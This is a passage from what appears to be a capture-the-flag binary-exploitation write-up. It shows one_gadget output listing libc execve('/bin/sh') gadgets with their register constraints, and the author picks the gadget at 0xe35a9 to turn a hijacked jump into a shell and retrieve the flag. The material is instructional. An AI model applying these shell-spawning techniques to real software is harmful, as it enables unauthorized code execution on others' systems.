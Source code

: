 ```
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp

0xe3603 execve("/bin/sh", rbp-0x50, r13)
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp
```

Well the one at `0xe35a9` seems good because r12 and r13 are NULL and rbp points to the stack at the jump.

Let's replace our target jump by `libc.address + 0xe35a9` and enjoy our shell:

![local_shell](images/local_shell.png)

## 🚩 Getting the flag

Now that we have our shell on our machine, let's try on the remote instance:

![flag](images/flag.png)

We got it!
